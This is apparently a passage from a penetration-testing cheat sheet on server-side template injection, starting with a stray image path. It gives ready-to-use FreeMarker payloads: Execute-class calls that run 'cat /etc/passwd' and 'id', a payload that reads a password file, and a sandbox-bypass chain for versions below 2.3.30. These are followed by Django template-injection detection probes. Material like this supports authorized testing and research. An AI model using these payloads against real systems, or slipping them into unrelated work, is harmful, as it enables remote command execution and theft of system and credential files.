 #### Get FreeMarker Version

```
${freemarkerVersion}
```

#### Freemarker - Code Execution

```
${“freemarker.template.utility.Execute”?new()(“cat /etc/passwd”)}
```

```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}

${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```

**Freemarker - Sandbox bypass**

⚠️ only works on Freemarker versions below 2.3.30

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

**More information**

* In FreeMarker section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)



## Django Template Injection

### Django Templates

Django template language supports 2 rendering engines by default: Django Templates (DT) and Jinja2. Django Templates is much simpler engine. It does not allow calling of passed object functions and impact of SSTI in DT is often less severe than in Jinja2.

#### Detection

```
{% raw %}
{% csrf_token %}
{% endraw %} # Causes error with Jinja2
{{ 7*7 }}  # Error with Django Templates
ih0vr{{364|add:733}}d121r # Burp Payload -> ih0vr1097d121r
```
